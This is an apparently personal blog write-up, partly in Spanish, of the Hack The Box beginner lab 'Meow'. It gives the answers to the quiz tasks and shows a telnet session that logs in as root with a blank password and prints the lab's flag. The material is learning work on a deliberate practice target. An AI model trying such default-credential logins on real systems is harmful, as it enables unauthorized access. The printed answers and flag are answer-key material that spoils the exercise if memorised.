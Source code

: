 ```yaml
---
title: Meow
date: 2025-04-2 12:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, meow]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```


Este primer reto de HackTheBox es una especie de examen de para comenzar en esta plataforma, 
consiste en una serie de preguntas y tareas a completar. Conectarse a la VPN que proporcionan y responder a las preguntas, 
para acabar realizando una captura de bandera simple. 

To attack the target machine, you must be on the same network.
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.
If you don't see an update after 2-3 minutes, refresh the page.
Connect to Pwnbox

Connect using Pwnbox

RECOMMENDED

A preconfigured, browser-based virtual machine with all the hacking tools you need pre-installed.
Free 2h of Pwnbox - Upgrade to VIP+ for Unlimited Access
Connect to OVPN

Connect using OpenVPN

Use your own machine for hacking. Download your VPN configuration and connect from your own environment.
Having Trouble? - Introduction to Lab Access

Spawn Machine

Spawn the target machine and the IP will show here

Task 1

What does the acronym VM stand for?

>virtual machine

Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

>terminal

Task 3

What service do we use to form our VPN connection into HTB labs?

>openvpn

Task 4

What tool do we use to test our connection to the target with an ICMP echo request?

>ping 

Task 5

What is the name of the most common tool for finding open ports on a target?

>nmap

Task 6

What service do we identify on port 23/tcp during our scans?

>telnet

Task 7

What username is able to log into the target over telnet with a blank password?

>root

Submit Flag

``` shell
pablo☠office meow$ telnet 10.129.76.225 
Trying 10.129.76.225...
Connected to 10.129.76.225.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root

root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

Submit root flag 

Una manera muy elegante de asegurarte de que los usuarios tengan un mínimo de nivel y conocimiento para iniciarte en tu plataforma. 

[https://www.hackthebox.com/achievement/machine/2336390/394](https://www.hackthebox.com/achievement/machine/2336390/394)